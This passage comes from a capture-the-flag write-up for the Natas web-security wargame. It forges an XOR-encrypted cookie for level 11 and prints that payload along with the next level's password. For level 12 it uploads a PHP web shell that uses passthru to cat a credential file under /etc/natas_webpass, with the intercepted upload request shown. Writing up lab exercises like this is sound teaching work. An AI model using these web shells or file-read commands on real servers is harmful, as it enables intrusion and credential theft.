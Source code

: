 What we need to do is to craft a valid cookie value, such that when it is decoded and decrypted on the server side, it will generate an entry of `array( "showpassword"=>"yes", "bgcolor"=>"#ffffff")`. Note that `bgcolor` does not matter in the checking.

To figure out the key of the `xor` encryption, we can do the `xor` operation on the plaintext (the JSON encoded string of the `defaultdata`) and the ciphertext (the value of `"data"` in the cookie). This is because of the way `xor`, or one-time pad works: 

```
ciphertext = plaintext xor key
ciphertext xor plaintext = plaintext xor key xor plaintext
ciphertext xor plaintext = key
```

The key, after doing these operations, is `KNHL`. The key is repeated due to the way that the `xor` operation in the `xor_encrypt`, each 4 characters in the plaintext will be `xor`-ed with the key. Hence, in the result of the above code, you can see that the `KNHL` string is repeated multiple times.

With the key, we can easily generate the correct payload to retrieve the password. The target plaintext is the array `array( "showpassword"=>"yes", "bgcolor"=>"#ffffff")`. We follow the way that the original PHP code encode and encrypt the array to generate the payload. Changing the cookie value to the payload, then after submitted the form we can retrieve the flag.

Payload is `MGw7JCQ5OC04PT8jOSpqdmk3LT9pYmouLC0nICQ8anZpbS4qLSguKmkz`

natas12: `YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG`

# Natas 12

There is no checking in the source code that the uploaded file must be a JPEG file, hence we can upload any file that we want to the server. Since the backend is running on PHP, we might as well upload a PHP file to get the content of the file in `/etc/natas_webpass/natas13`. The file we will upload is the following:

```php
<?php
    passthru("cat /etc/natas_webpass/natas13")
?>
```

However, after uploading the file, the file name got changed to `<some_random_string>.jpg`, which disallows the PHP code from executing. Inspecting further, we can observe that there is a hidden `filename` (which determines the file name uploaded to the server), and it is already determined before any file is chosen. This `filename` is the path of the uploaded file on the web server.

Hence, if we can change the `filename` extension back to `.php`, we can make the PHP code valid and retrieve the flag. Opening the browser from Burp Suite, and then choose the PHP payload file and turn the Burp Suite intercept on, we can see the form data uploaded will be something like

```
------WebKitFormBoundaryEex9eRjYhKzAHvH7
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
------WebKitFormBoundaryEex9eRjYhKzAHvH7
Content-Disposition: form-data; name="filename"

j6s2vxhm9i.jpg
------WebKitFormBoundaryEex9eRjYhKzAHvH7
Content-Disposition: form-data; name="uploadedfile"; filename="natas12.php"
Content-Type: application/octet-stream

<?php
    passthru("cat /etc/natas_webpass/natas13")
?>
------WebKitFormBoundaryEex9eRjYhKzAHvH7--
```
